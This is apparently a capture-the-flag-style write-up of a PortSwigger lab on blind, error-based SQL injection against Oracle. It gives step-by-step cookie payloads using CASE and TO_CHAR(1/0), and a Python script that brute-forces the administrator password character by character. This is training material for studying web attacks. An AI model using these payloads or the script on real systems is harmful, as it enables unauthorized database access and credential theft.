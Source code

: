 # Lab10: Blind SQL injection with conditional errors
* url: `https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors`
* vulnerability: `Blind SQL injection with conditional errors`


## Description 
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user. 

## Proof of Concept
1. Navigate to any of the hyperlinks for `Product Category`, and intercept the request with Burp Suite 
2. Right click on the `GET` request and send the request to `Repeater` for further inspection and tests  
![descript](images/sqli-practitioner-lab10-repeater.png)
3. I test the `TrackingId` cookie with the injections of `'` and `''` to see how the web application responds.
The web application gives an `internal server error` when I inject a single quote to the trackingid value, however
when I inject two single quotes to the value of the trackingid cookie, it does not give me an error.
Although this is not proof that SQLi vulnerability exists, it's a good indication. 
> In many databases (including Oracle), `' '` is interpreted as a **literal** single quote `'`. This
fixes the syntax, and the query works normally again. No error returned. 

4. When you inject something like a malicious payload into a web application, there could be 
many reasons the application returns an error like:  
* **SQL Errors**: The server runs your input as `SQL`, and your input causes a `SQL syntax error`
* **Application-Level Errors**: The server might have other security mechanisms that reject
`invalid input` before it even gets to the database  
To confirm that the error is related to `SQL syntax`, I need to see if the server is processing
my input as part of an `SQL query`. If the error is SQL-related, it means the server is treating
my input as SQL, and I have successfully injected something that the database interprets. 
5. In step 3, the injection of a single quote `'` caused an error, however it did not specify
what kind of error. It only returned `internal server error`. To confirm that the error is SQL-syntax
related, I can inject a subquery like: `'||(SELECT '')||'`. This will create a valid query like:
`SELECT * from tracking where id = 'xyz' || SELECT('') || ''`
> This will take `xyz` concatenate it with the rest of the subquery (select ''), which is an 
empty string and finally concatenates it to another empty string after that. This ensures that 
the SQL query's syntax is still valid and should run as if nothing was changed for the cookie's value. 

![descript](images/sqli-practitioner-lab10-check.png)  
6. As you can see from running the payload in the request, I still reach an `internal server error`.
I can test if the target DBMS is `Oracle` by adding a `FROM dual` statement in the subquery.  
![descript](images/sqli-practitioner-lab10-dual.png)  
7. Because I reached a status code of 200 OK, I can conclude that I'm dealing with an Oracle
database and that the DBMS is interpreting my input as SQL code.  
8. Now I can utilize Oracle's `ROWNUM` in order to check for the existence
of the users table (even though I know it exists already, its a good habit to have). 
```
1. Why use ROWNUM instead of LIMIT? 
  - Oracle DBMS doesn't recognize the LIMIT keyword. Instead, Oracle uses ROWNUM to limit 
  the number of rows that is retrieved from a query. 

2. Why use ROWNUM in the first place? Why can't I do something like SELECT '' from users? 
  - If the subquery returns more than one row of data, Oracle doesn't know how to concatenate
  multiple rows of data. 

3. Why didn't I have to use ROWNUM = 1 in the subquery of: SELECT '' FROM dual?
  - In Oracle, dual is a special table that always contains exactly one row, because 
  it only has one row. 

4. TIP: in the context of SQLi and concatenation, you generally want to return just one 
result to concatenate it cleanly with other parts of the query. 
```
9. Now that I have the general feel of the web application's DBMS, I can send payloads to 
test its responses to errors and non-errors in SQL statements:  
* `'||(SELECT CASE WHEN 1=1 THEN TO_CHAR(1/0) ELSE '' END from dual)||'`
* `'||(SELECT CASE WHEN 1=2 THEN TO_CHAR(1/0) ELSE '' END from dual)||'`   
![descript](images/sqli-practitioner-lab10-case-true.png)  
![descript](images/sqli-practitioner-lab10-case-false.png)  
10. Notice how the main difference in response is the existence of the `internal server error` message. 
I can use this error message to check for the existence of a user called `administrator` in the `users`
table. If i see an error, I'll know that the `administrator` user exists. Keep in mind that the 
`WHERE` clause is evaluated first before any other parts of the query, including `CASE`.
Payload: `'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator')'`  
![descript](images/sqli-practitioner-lab10-admin-check.png)   
I can use payloads like this and the existence of an error message to extract any piece of 
information from the DBMS! 
11. To check for the length of the password for `administrator`, I send payloads like: `'||(SELECT CASE WHEN LENGTH(password)=1 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator')||'`
I slowly increment the length of password until I see an error (The password length is 20).   
![descript](images/sqli-practitioner-lab10-length.png)  
12. Next I can use Burp Intruder to evaluate each exact character of the password for administrator user, but because I have the community version, it would be faster for me to write a simple python script.
The payload I will be using is: `'||(SELECT CASE WHEN SUBSTR(password, 1, 1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator')||'`
```
import requests

# global variables 
url = "https://0aa90077033940cc8022089d0001001c.web-security-academy.net/"
characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
password = ""

for x in range(1, 21): 
    for c in characters:
        cookie = dict(TrackingId=f"QGdCCTMOZUdb6ReG'||(SELECT CASE WHEN SUBSTR(password, {x}, 1)='{c}' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator')||'")
        r = requests.get(url, cookies=cookie)
        
        if r.status_code == 500: 
            password += c
            print(f"Found {c} at index {x}")
            break

print(f"The password is: {password}")
```
13. The password I got from this script is `i6br70xqlemjg6q5ir4i`. So I can go ahead and use `administrator` as the user and `i6br70xqlemjg6q5ir4i` as the password to log in and solve the lab!


## Notes
* `CASE` is used for conditinal logic within queries, similar to `if-else` statements in programming. It allows you to create new fields or modify values based on conditions 
* Syntax: 
  * `SELECT column1, CASE WHEN condition1 THEN result1 WHEN condition2 THEN result2 ELSE default_result END FROM table_name;`
  * `SELECT CASE WHEN condition1 THEN result1 WHEN condition2 THEN result2 ELSE default_result FROM table_name;`
* `Oracle DBMS` require a `FROM` statement for a valid SQL query! 
  * `dual` is a special table in oracle that exists by `default`. You can utilize this 
  information by using `dual` as a `dummy` table!
* `ROWNUM` gives each row in the result a number, starting from 1
  * so combining the `WHERE` clause in a SELECT statement will return the first row if: 
  `... WHERE ROWNUM = 1`
* `TO_CHAR` is a function in SQL (primarily in Oracle) taht converts data into a string format
  * other DBMS like PostgreSQL and MySQL have similar functions, but they may use different names
  like `CAST()` or `CONVERT()`
